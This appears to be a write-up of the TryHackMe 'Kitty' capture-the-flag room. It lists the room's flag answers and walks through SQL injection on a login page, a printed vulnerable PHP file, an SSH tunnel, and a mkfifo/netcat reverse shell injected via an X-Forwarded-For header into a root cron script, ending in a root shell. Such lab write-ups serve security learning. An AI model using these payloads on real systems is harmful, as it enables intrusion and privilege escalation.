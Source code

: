 # Kitty

## Task 1  What is the user and root flag?
+ What is the user flag? `THM{3xex0x9x8x7xcxcxbxax6xbxbx6xbx6x}`
+ What is the root flag? `THM{5x1xfx2xbx3x2x1x7x0x6x3xexfx3xbx}`
## Task 2  Thank you
+ Thank you for playing. `No Answer Needed`

### Enumeration
+ Try to signup with user `kitty` and we got error `This username is already taken.`
+ Register new user 
+ Try SQLinjection on Login 
    - Query Using `' OR 1=1 -- -'` Return Error and logged something weird on logged and validation
    - Query Using `newuser' AND SELECT 'a' = 'a' -- -` Passed 
+ Create a python to brute the Database, Table and Password for `Kitty`

+ After Get Creadential 
```bash
hengkisirait: Kitty $ ssh kitty@10.10.131.226
kitty@kitty:~$ ls
user.txt
kitty@kitty:~$ cat user.txt
THM{3xex0x9x8x7xcxcxbxax6xbxbx6xbx6x}
kitty@kitty:~$
```

### Privelege Escalation
+ Upload linpeas and have an active port `8080`
+ found weird file on `/opt` and after look using pspy64 it's running every minutes
```bash
kitty@kitty:~$ cat /opt/log_checker.sh
#!/bin/sh
while read ip;
do
  /usr/bin/sh -c "echo $ip >> /root/logged"; 
done < /var/www/development/logged
cat /dev/null > /var/www/development/logged
```

+ Using `linpeas.sh` we got the file `VHOST 127.0.0.1:8080` and server linten on localhost 8080 check vhost file to abuse
+ Check on `index.php` on development site `/var/www/development`
```php
<?php
// Initialize the session
session_start();

// Check if the user is already logged in, if yes then redirect him to welcome page
if(isset($_SESSION["loggedin"]) && $_SESSION["loggedin"] === true){
    header("location: welcome.php");
    exit;
}

include('config.php');
$username = $_POST['username'];
$password = $_POST['password'];
// SQLMap
$evilwords = ["/sleep/i", "/0x/i", "/\*\*/", "/-- [a-z0-9]{4}/i", "/ifnull/i", "/ or /i"];
foreach ($evilwords as $evilword) {
	if (preg_match( $evilword, $username )) {
		echo 'SQL Injection detected. This incident will be logged!';
		$ip = $_SERVER['HTTP_X_FORWARDED_FOR'];   // THIS IS THE PAYLOAD TO INJECT
		$ip .= "\n";
		file_put_contents("/var/www/development/logged", $ip); // THE PAYLOAD WILL WRITE TO THIS FILE
		die();
	} elseif (preg_match( $evilword, $password )) {
		echo 'SQL Injection detected. This incident will be logged!';
		$ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
		$ip .= "\n";
		file_put_contents("/var/www/development/logged", $ip);
		die();
	}
}


$sql = "select * from siteusers where username = '$username' and password = '$password';";
$result = mysqli_query($mysqli, $sql);
$row = mysqli_fetch_array($result, MYSQLI_ASSOC);
$count = mysqli_num_rows($result);
if($count == 1){
	// Password is correct, so start a new session
	session_start();

	// Store data in session variables
	$_SESSION["loggedin"] = true;
	$_SESSION["username"] = $username;
	// Redirect user to welcome page
	header("location: welcome.php");
} elseif ($username == ""){
	$login_err = "";
} else{
	// Password is not valid, display a generic error message
	$login_err = "Invalid username or password";
}
?>

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Login</title>
    <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.5.2/css/bootstrap.min.css">
    <style>
        body{ font: 14px sans-serif; }
        .wrapper{ width: 360px; padding: 20px; }
    </style>
</head>
<body>
    <div class="wrapper">
        <h2>Development User Login</h2>
        <p>Please fill in your credentials to login.</p>

<?php
if(!empty($login_err)){
        echo '<div class="alert alert-danger">' . $login_err . '</div>';
}
?>

        <form action="<?php echo htmlspecialchars($_SERVER["PHP_SELF"]); ?>" method="post">
            <div class="form-group">
                <label>Username</label>
                <input type="text" name="username" class="form-control">
            </div>
            <div class="form-group">
                <label>Password</label>
                <input type="password" name="password" class="form-control">
            </div>
            <div class="form-group">
                <input type="submit" class="btn btn-primary" value="Login">
	    </div>
	    <p>Don't have an account? <a href="register.php">Sign up now</a>.</p>
        </form>
    </div>
</body>
</html>
```

+ So we need to TUNNELING the local PORT (8080) `ssh -L 8080:127.0.0.1:8080 kitty@10.10.131.226`
+ Generate python script to get call on localhost (proxy) 
```bash
kitty@kitty:/var/www/development$ tail -f logged
$(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.4.37.160 4444 >/tmp/f)
```

+ Generate new python request exploit the `X-Forwaded-For: payload`
```bash
hengkisirait: ~ $ nc -l 4444
id
bash: cannot set terminal process group (4244): Inappropriate ioctl for device
bash: no job control in this shell
root@kitty:~# id
uid=0(root) gid=0(root) groups=0(root)
root@kitty:~# cd /root
cd /root/
root@kitty:~# ls
ls
logged
root.txt
snap
root@kitty:~# cat root.txt
cat root.txt
THM{5x1xfx2xbx3x2x1x7x0x6x3xexfx3xbx}
```